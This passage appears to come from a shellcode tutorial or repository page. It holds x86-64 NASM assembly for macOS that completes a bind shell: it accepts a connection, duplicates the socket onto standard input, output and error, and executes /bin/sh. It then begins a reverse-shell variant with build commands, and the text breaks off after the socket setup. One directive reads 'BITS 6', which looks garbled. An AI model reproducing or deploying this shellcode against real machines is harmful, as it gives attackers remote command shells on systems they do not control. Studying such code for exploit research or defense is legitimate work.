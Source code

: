 ```nasm
    xor     rsi, rsi        ; rsi = 0
    syscall

    ; accept
    sub     r8, 0x4C
    mov     rax, r8         ; rax = accept
    mov     rdi, r12        ; rdi = sfd
    xor     rsi, rsi
    xor     rdx, rdx
    syscall
    mov     r14, rax        ; r14 = cfd

    ; dup
    add     r8, 0x3C
    xor     rsi, rsi
    ; dup2(cfd, 0);
    ; dup2(cfd, 1);
    ; dup2(cfd, 2);
dup:
    mov     rax, r8                 ; rax = dup2
    mov     rdi, r14                ; rdi = cfd
    syscall                         ; dup2(cfd, rsi)
    
    cmp     rsi, 0x2                ; Is it less than 2? ----
    inc     rsi                     ; rsi ++       |
    jbe     dup                     ; Yes?jump to dup   <----

    ; exec
    sub     r8, 0x1F
    mov     rax, r8
    xor     rdx, rdx
    xor     rsi, rsi
    mov     r13, '//bin/sh'
    shr     r13, 8
    push    r13
    mov     rdi, rsp        ; rdi = '//bin/sh'
    syscall
```

![](https://github.com/user-attachments/assets/f3490032-9c80-4140-bba8-e01c64093200)


### Reverse Shell

Refer to `bindshell.asm` and replace the `bind`, `listen`, and `accept` system calls with `connect`:

```asm
; nasm -f macho64 reverse_shell.asm
; ld -macosx_version_min 10.14 -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib -lSystem -o reverse_shell reverse_shell.o 

BITS        6
global      _main

section     .text
_main:
    ; socket
    xor     rax, rax
    mov     al, 0x2          ; rax=0x2
    ror     rax, 0x28        ; rax=0x2000000
    mov     al, 0x61         ; rax=socket
    mov     r8, rax   

```